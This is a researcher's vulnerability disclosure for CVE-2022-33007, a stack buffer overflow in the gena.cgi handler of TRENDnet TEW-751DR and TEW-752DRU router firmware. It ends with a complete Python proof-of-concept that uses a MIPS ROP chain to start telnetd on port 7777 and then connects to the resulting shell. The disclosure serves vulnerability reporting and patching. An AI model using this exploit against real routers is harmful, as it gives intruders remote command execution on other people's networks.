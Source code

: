 Vendor of the products:TRENDnet

Reported by: 　　　FeiXincheng && WangJincheng from X1cT34m

Affected products: TRENDnet TEW751DR <= v1.03 , TRENDnet TEW-752DRU <= v1.03

Vendor Homepage:  https://www.trendnet.com/

Vendor Advisory:  https://www.trendnet.com/support/support-detail.asp?prod=165_TEW-751DR , 
                  https://www.trendnet.com/support/support-detail.asp?prod=170_TEW-752DRU

CVE_ID:[CVE-2022-33007](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-33007)

# summarize

The LAN-side Web-Configuration Interface has Stack-based Buffer Overflow vulnerability in the `TrendNet` Wi-Fi router firmware `TEW751DR` `TEW-752DRU` . In the `genacgi_main` function of the `cgibin` program, the `sprintf` method directly uses the service parameter from `/gena.cgi`. The attackers can construct a payload to carry out arbitrary code attacks.

# vulnerability description

There is a `stack overflow` vulnerability in the `genacgi_main` function.

![image-20220316191407126](https://github.com/fxc233/CVE/blob/main/img/1.png)

It calls the `sub_40EC1C` function.

![image-20220316191407126](https://github.com/fxc233/CVE/blob/main/img/2.png)

However, in the `sub_40EC1C` function, it calls the `sprintf` function from `a1` to `v23` without any security check, which causes the stack overflow.

![image-20220316191407126](https://github.com/fxc233/CVE/blob/main/img/3.png)


# poc

	# python3
	from pwn import *
	from socket import *
	from os import *
	from time import *
	context(os = 'linux', arch = 'mips')
	
	libc_base = 0x2aaf8000
	
	s = socket(AF_INET, SOCK_STREAM)
	
	cmd = b'telnetd -p 7777;'
	payload = b'a'*462
	payload += p32(libc_base + 0x53200 - 1) # s0  system_addr - 1
	payload += p32(libc_base + 0x169C4) # s1  addiu $s2, $sp, 0x18 (=> jalr $s0)
	payload += b'a'*4 # s2
	payload += p32(libc_base + 0x32A98) # ra  addiu $s0, 1 (=> jalr $s1)
	payload += b'a'*0x18 # padding
	payload += cmd
	
	msg = b"UNSUBSCRIBE /gena.cgi?service=" + payload + b" HTTP/1.1\r\n"
	msg += b"Host: localhost:49152\r\n"
	msg += b"SID: 1\r\n\r\n"
	
	s.connect((gethostbyname("192.168.10.1"), 49152))
	s.send(msg)
		
	sleep(1)
	system("telnet 192.168.10.1 7777")


![image-20220316191407126](https://github.com/fxc233/CVE/blob/main/img/shell.png?raw=true)
